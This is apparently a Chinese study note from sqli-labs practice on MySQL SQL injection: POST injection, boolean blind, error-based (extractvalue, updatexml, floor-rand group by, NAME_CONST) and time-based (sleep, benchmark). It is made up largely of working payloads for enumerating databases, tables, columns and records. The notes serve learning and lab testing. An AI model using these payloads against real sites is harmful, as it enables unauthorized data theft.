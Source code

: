 ### POST型注入
- 不在url处注入, 而是在post报文中, 使用Burp注入(也可以使用hackbar的postdata)
- 寻找注入点, 根据相应报错信息和返回报文进行注入
- sqli-labs-less11

## 布尔盲注
- 是利用SQL语句**逻辑与**(and)操作, 判断and两边的条件是否成立, SQL语句带入数据库查询后判断返回内容(通常返回值仅有空和非空两种状态), 类似布尔型的true和false. 类似于一个人, 只能点头摇头来传递信息
- 特性: 对于用户执行的SQL语句, 只有两种页面显示, 利用SQL判断语句正确与否, 达到获取数据的目的

### 布尔盲注的流程
1. 确定注入点
	- `?id=1''` [[7.20 SQL注入基础#^8e5d25]]
	- 添加单引号/双引号一次/两次, 来判断判断注入点以及闭合方式
2. 判断数据库版本
	- `left(version(), 1)=5 --+` 5.0以上的版本可以使用information_schema数据库
3. 判断当前查询数据库名的长度
	- `length(database())=3 --+` 枚举最后的数字, 尝试长度
4. 猜解当前数据库名称
	- `ascii(substr(database(),1,1))>95 --+` 依次查看字符串名称的值
	- Burp的Intruder模块爆破, 调整Payloads
5. 猜解数据表的数量
	- `(select count(table_name) from information_schema.tables where table_schema=database())=4 --+`
6. 猜解数据表第一个名称的长度
	- `length((select count(table_name) from information_schema.tables where table_schema=database() limit 0,1))=6 --+` length()只接收一个参数, 所以里面的嵌套查询需要括起来(limit部分的逗号) , 二分法
7. 猜解第一个数据表名称的第一个字符
	- `ascii(substr((select table_name from information _schema.tables where table_schema=database() limit 0,1),1,1))>95 --+` 使用第6步获取的名称的子句, 取子字符串查询, 修改substr()的第二个参数猜解不同位置字符
8. 猜解数据表中字段(列)数量
	- `(select count(column_name) from information_schema.columns where table_schema=database() and table_name="emails")=2 --+`
	- 一行叫做记录, 一列叫做字段
9. 猜解数据表中第一个字段的名称长度
	- `length((select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1))=2 --+`
10. 猜解第数据表中第一个字段的第一个字符
	- `ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),1,1))>97 --+`
11. 获取字段中的记录
	- `ascii(substr((select group_concat(id) from emails),1,1))=49`


## 报错盲注
- 如果Web没有正常的错误回显, 就只能通过输入错误格式的语句(函数), 使数据库报错, 并在报错信息中加入想要获取的数据
### xpath语法错误
#### extractvalue()
- 正常语法: `extractvalue(xml_document, Xpath_string);`
	- xml_document: xml文档对象的名称, string格式
	- Xpath_string: xpath格式的字符串, **如果不符合xpath格式, 则会报错, 并将报错结果放在报错信息中**
- 作用: 从目标xml中返回包含所查询值的字符串
- payload: `id='and(select extractvalue("anything",concat('~',(select语句))))`
	- 查库名: `(select extractvalue(1,concat('~',(select database()))))`
	- 查数据库版本: `(select extravalue(1, concat(0x7e,@@version)))`
	- 查表名: `(select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))))`
	- 查字段名: `(select extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))))`
	- 查数据: `(select extractvalue(1,concat(0x7e,(select group_concat(COLUMN_NAMES) from TABLE_NAME))))`
- 注: 
	- `0x7e` = '~', 也可以换成'#' '$'等不满足xpath格式的字符
	- mysql中`version()`=`@@version`; `concat('a','b')`="ab"
	- extractvalue()能查询字符串长度**最大为32**, 如果结果超过32则需要使用substring()截取或使用limit分页

#### updatexml()
- 正常语法: `updatexml(xml_document,xpath_string,new_value)`
	- new_value: string格式, 替换查找到的符合条件的数据
- 作用: 改变文档中符合条件的节点的值
- payload: `id=' and (select updatexml("anything",concat('~',(select...)),"anything"))` (在extractvalue基础上多一个任意参数)
	- 查数据库版本: `(select updatexml(1,concat(0x7e,@@version),1))`

### concat+rand()+group_by()导致主键重复
- 本质上基于`floor(rand(0)*2)`的重复性, 导致group by语句出错
- group by key的原理是循环读取数据的每一行, 将结果保存在一个临时表中. 读取每一行的key时, 如果key存在于临时表中, 则不在临时表中更新数据; 如果key不再临时表中, 则在临时表中插入key所在**行**的数据
- 利用方式: `floor(rand(0)*2)` , 会生成0或1两个数
	- `rand()`: 生成0~1之间的随机数, 可以给定一个随机数的种子. 对于每个给定的种子, rand()都会产生一系列可以重复出现的数字
	- `floor()`: 对任意正/负十进制值向下取整
- payload: `union select 1 from(select count(*),concat((select...),floor(rand(0)*2))x from TABLE_NAME group by x` 
	- 获取不同数据只需修改select...部分即可
	- 爆数据库名: `union select 1 from (select count(*),concat((select database())," ",floor(rand(0)*2))x from information_schema.tables group by x)a`

### NAME_CONST()
- `NAME_CONST(column_name, const_value)`
	- column_name: 一个可作为列名的字符串
	- const_value: 常量值
- 返回给定的常量值const_value, 如果用来产生一个集列, 那么列名为column_name
- 等同于 select const_value as column_name
- mysql列名重复会导致报错, NAME_CONST制造一个列; 使用join同时创建两个相同的列造成列名重复
- payload: `exists(select * from (select * from(select name_const(version(),0))a join (select name_const(version(),0))b)c)` (爆数据库版本)


## 时间盲注(延时注入)
- 如果同时既没有布尔回显以及错误回显, 则只能通过延时注入, 根据浏览器页面的相应时间来判断正确的数据
- 通过`and sleep(5)`来判断页面的响应时间, 在五秒多一点则说明此处可以延时注入
- `if(a, b, c)`: a是判断语句, 如果a的结果为真, 则返回b; 如果a的结果为假, 则返回c
### sleep()
- 使用与布尔盲注相似的条件, if()函数来使如果为真则执行sleep()函数
- payload: `if((length(database())=4),sleep(5),1)

### BENCHMARK()
- `BENCHMARK(count,expr)` 重复count次执行表达式expr, 可以用于计时MySQL处理表达式的速度, 返回值为0, 仅显示时间
- 特性
	- 无论expr表达式的语句执行结果为True, False或Null, benchmark都会正常执行
	- expr表达式仅支持查询单行单列的结果, 反之则报错
	- benchmark内的语句执行失败, benchmark同样执行失败
- 选择一些耗时较长的函数如:md5(), sha()等
- payload: `if((length(database())=4),(select benchmark(10000000,md5(0x41))),1)`